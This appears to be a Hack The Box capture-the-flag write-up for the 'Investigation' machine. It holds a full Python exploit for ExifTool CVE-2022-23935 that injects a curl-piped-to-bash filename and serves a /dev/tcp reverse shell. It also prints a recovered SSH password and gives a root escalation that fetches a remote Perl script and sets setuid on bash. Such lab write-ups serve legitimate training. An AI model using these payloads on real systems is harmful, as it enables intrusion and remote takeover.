





<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.197 eforenzics.htb`

****nmap scan: TCP/IP****

```bash
Nmap scan report for 10.10.11.197
Host is up (0.46s latency).

PORT     STATE  SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open   http           Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://eforenzics.htb/
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web server is redirecting to hostname `eforenzics.htb`

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-eforenzics.htb.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-eforenzics.htb.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

File upload functionality in `/service.html`


On upload image it output that image EXIF data in `/analysed_images/<youriamge.txt>`



Application is using `exiftool` version 12.37.

And there is command injection vulnerability [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) in ExifTool <12.38.

# Foothold

## Exiftool CVE-2022-23935

Description -> "`lib/Image/ExifTool.pm` in ExifTool before 12.38 mishandles a `$file =~ /\|$/` check, leading to command injection."

Exploit script, this is a modified to automate file upload in original script -> https://github.com/BKreisel/CVE-2022-23935
```py
#!/usr/bin/env python3

"""
This is a modified version of Original Script - https://github.com/BKreisel/CVE-2022-23935

Modified By: Poorduck
Usage: python3 script.py [IP] [PORT]
"""

import argparse
import rich
import socketserver
import sys
from functools import partial
from http.server import SimpleHTTPRequestHandler
import requests as r
import threading

# Smallest Possible valid JPEG
# https://gist.github.com/scotthaleen/32f76a413e0dfd4b4d79c2a534d49c0b
JPEG_BYTES = b"\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xFF\xDB\x00" \
             b"\x43\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF" \
             b"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF" \
             b"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xC2\x00" \
             b"\x0B\x08\x00\x01\x00\x01\x01\x01\x11\x00\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00" \
             b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00\x01\x3F\x10"

class WebHandler(SimpleHTTPRequestHandler):
    def __init__(self, payload: str, *args, **kwargs):
        self.payload = payload
        super().__init__(*args, **kwargs)
    
    def do_GET(self):
        success("Got Request. Sent Payload 🏴‍☠️")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(self.payload.encode())
        sys.exit(0)
    
    def log_message(self, format, *args):
        pass

def error(txt: str):
    rich.print(f"[red][-] Error: [/red]{txt}")
    sys.exit(1)

def status(txt: str, prefix=""):
    rich.print(prefix + f"[blue][*][/blue] {txt}")

def success(txt: str, prefix=""):
    rich.print(prefix + f"[green][+][/green] {txt}")

def start_server(args, payload):
    status(f"Use Listener:  [bold cyan]nc -nvlp {args.port} [/bold cyan]")

    try:
        handler = partial(WebHandler, payload)
        with socketserver.TCPServer(("", args.server_port), handler) as httpd:    
            status(f"Server Started on {args.server_port} (Ctrl+C to stop)\n")
            httpd.serve_forever()
    except KeyboardInterrupt:
        status("Quitting...")
        sys.exit(0)
    except Exception as e:
        error(f"Exception: {e}")
        sys.exit(1)

def upload_func(fn):
    s = r.session()
    # s.proxies = {"http": "http://127.0.0.1:8080"}
    url = "http://eforenzics.htb/upload.php"
    resp = s.post(url, files={"image": (fn, JPEG_BYTES), "upload": (None, "upload")})
    s.close()

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("ip", help="IP Address/Host for Callback")
    parser.add_argument('port', help="Port Number for Callback")
    parser.add_argument('-l', '--listen', dest="server_port", help="Port Number for Server Listen", default=55555)
    parser.add_argument('-s', '--shell', default="bash", help="Remote Shell")
    args = parser.parse_args()

    FILENAME_FMT = "curl {ip}:{port} | {shell} |"
    REVERSE_SHELL_FMT = "{shell} -i 5<> /dev/tcp/{ip}/{port} 0<&5 1>&5 2>&5"
    
    filename = FILENAME_FMT.format(shell=args.shell, ip=args.ip, port=args.server_port)
    payload = REVERSE_SHELL_FMT.format(shell=args.shell, ip=args.ip, port=args.port)

    # Start the HTTP server in a new thread
    server_thread = threading.Thread(target=start_server, args=(args,payload))
    server_thread.start()

    # Execute upload_func in a new thread after the server starts
    upload_thread = threading.Thread(target=upload_func, args=(filename,))
    upload_thread.start()

    # Wait for the upload to finish
    upload_thread.join()
```




## Lateral Movement

Got shell as "www-data" user.

Running linpeas -

There is cron job is running in every 5 minutes.
```bash
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```

Only 1 user on the box
```bash
╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

### Windows Event Log

There is a 'Windows Event Logs for Analysis.msg' file in the `/usr/local/investigation/` directory.
```bash
❯ file Windows-Event-Logs-for-Analysis.msg
Windows-Event-Logs-for-Analysis.msg: CDFV2 Microsoft Outlook Message
```

with this tool -> https://github.com/TeamMsgExtractor/msg-extractor, Extract msg file. File contains `message.txt`, `evtx-logs.zip`.
```bash
❯ cat message.txt
From: Thomas Jones <thomas.jones@eforenzics.htb>
Sent: Sun, 16 Jan 2022 06:00:29 +0530
To: Steve Morton <steve.morton@eforenzics.htb>
Subject: Windows Event Logs for Analysis
-----------------

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

`evtx-logs.zip` File contains event log file.
```bash
❯ file security.evtx
security.evtx: MS Windows 10-11 Event Log, version  3.2, 238 chunks (no. 237 in use), next record no. 20013
```

Here is few tools to convert windows event log file to xml file
* https://github.com/williballenthin/python-evtx
* https://github.com/omerbenamram/evtx

but the log file is quite big
```bash
❯ wc test.xml
  622408  1053109 26541445 test.xml
```

There is tool which can parse windows event log files and extract interesting information from the log file -> https://github.com/NVISOsecurity/evtx-hunter

But this tool is not updated and need some changes to run in linux.

* clone git repo -> `git clone https://github.com/NVISOsecurity/evtx-hunter.git`
* Move to `evtx-hunter/`
* update `evtx-hunter/requirements.txt` -

    ```
    pandas
    numpy
    matplotlib
    plotly~=4.14.3
    jsonlines~=2.0.0
    dash~=1.20.0
    Flask==2.0.0
    Werkzeug==2.0.0
    ```

* Edit `evtx-hunter/app/vars.py` and change `EVTX_DUMP_EXE = "evtx_dump-v0.7.2.exe"` to `EVTX_DUMP_EXE = "evtx-dump"`
* Replace `evtx-hunter/external/evtx_dump-v0.7.2.exe` with https://github.com/omerbenamram/evtx linux binary.

*Note: This tool also crashed if the folder name has any spaces in the name like "New Folder".*

Then run it where "security.evtx" extract.
```bash
❯ python ~/git-tools/evtx-hunter/app/evtx_hunter.py dump
2023-03-29 12:15:36,647 - evtx-hunter - INFO - started evtx-hunter
2023-03-29 12:15:36,662 - evtx-hunter - INFO - processing dump/security.evtx
2023-03-29 12:15:37,015 - evtx-hunter - INFO - processed 20012 events
2023-03-29 12:15:37,015 - evtx-hunter - INFO - generating graphs and building models, this can take a while
Dash is running on http://127.0.0.1:8050/

 * Serving Flask app 'evtx_hunter' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8050/ (Press CTRL+C to quit)
```



In the tool output, one strings looks interesting, and looks like that user input password in the username which logged in the event.

* ssh creds -> `smorton:Def@ultf0r3nz!csPa$$`

# Privesc

## Reversing C binary

User "smorton" can run `/usr/bin/binary` binary as root.
```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Here is the main function of the binary, de-compiled using `ghidra`
```c++
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *param0;
  char *param0_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(char **)(param_2 + 0x10));
    param0 = (char *)malloc((long)iVar2 + 1);
    snprintf(param0,(long)iVar2 + 1,"%s",*(char **)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",param0);
    param0_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(param0_00,(long)iVar2 + 1,"perl ./%s",param0);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(param0_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This is a C program that downloads a file using `libcurl`, saves it to disk, executes a Perl script, and then deletes the downloaded file.

Here is a breakdown of the program's functionality:

1. The program checks if it has exactly 3 command-line arguments. If it doesn't, it prints "Exiting..." and exits.
2. The program checks if the user running it has root privileges. If not, it prints "Exiting..." and exits.
3. The program checks if the second command-line argument is equal to the string "`lDnxUysaQn`". If not, it prints "Exiting..." and exits.
4. If the program has passed all three checks, it prints "Running..." and proceeds to download a file using `libcurl`.
5. The program saves the downloaded file to disk with the same name as the second command-line argument.
6. The program then initializes a Perl interpreter and executes a Perl script with the same name as the downloaded file.
7. After executing the Perl script, the program deletes the downloaded file and exits.

Note that this program could potentially be used for malicious purposes, as it executes a Perl script with root privileges. Therefore, it should be used with caution and only in trusted environments.

So, what this binary is doing is, Downloading a file from remote host which user specify and then running it with perl as root.

We can exploit it by crating a reverse sell in perl and save it in a file, host it using http server, use that binary to run that perl script as root.

```perl
#!/usr/bin/perl

sub run_commands {
    my @commands = @_;
    foreach my $command (@commands) {
        system($command);
    }
}

# Example usage
run_commands("cat /root/root.txt", "chmod +s /bin/bash");
```

```bash
sudo /usr/bin/binary http://10.10.14.54:8000/exec.pl lDnxUysaQn
```



